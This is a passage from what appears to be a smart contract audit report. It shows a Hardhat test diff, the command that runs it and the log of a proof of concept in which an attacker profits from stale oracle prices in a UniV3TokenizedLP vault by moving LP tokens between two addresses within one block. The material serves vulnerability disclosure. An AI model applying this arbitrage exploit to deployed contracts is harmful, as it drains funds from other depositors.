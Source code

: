 ```diff
+               console.log(">> USDC out: %s", usdcOut);
+               console.log(">> Attacker buy WETH at price of %s WETH/USDC", usdcOut.mul(ONE_ETH).div(wethIn).div(ethers.utils.parseUnits('1', 6)));
+               console.log(">> The real price is %s WETH/USDC", (await wethUsdOracle.latestAnswer()).div(await usdcUsdOracle.latestAnswer()));
+               console.log();
+       });
+
        it('should check uV3TokenizedLp was properly initialized', async () => {
                const {uV3TokenizedLp, usdc, weth, samplePool, creator} = await loadFixture(setupFixture);
                const token0Addr = await uV3TokenizedLp.token0();

```

Run the PoC

```bash
yarn hardhat test --grep "attacker can exploit oracle price differences to arbitrage"
```

The log

```bash
$ yarn hardhat test --grep "attacker can exploit oracle price differences to arbitrage"
Warning: All subsequent Upgrades warnings will be silenced.

    Make sure you have manually checked all uses of unsafe flags.



  UniV3TokenizedLP:
>>>>>>>>>> Init the PoC

>>>>>>>>>> User1 deposits some tokens to simulate the real environment

>>>>>>>>>> Attacker1 deposits some USDC in advance
>> block number before attack: 106

>>>>>>>>>> WETH price increased by 0.5%

>>>>>>>>>> Attacker1 transfers LP to attacker2 in the same block and then withdraws them
>> block number after attack: 107
>> WETH in: 1515151515153809869
>> USDC out: 5303030304
>> Attacker buy WETH at price of 3500 WETH/USDC
>> The real price is 3517 WETH/USDC

    ✔ attacker can exploit oracle price differences to arbitrage (12203ms)


  1 passing (18s)


```
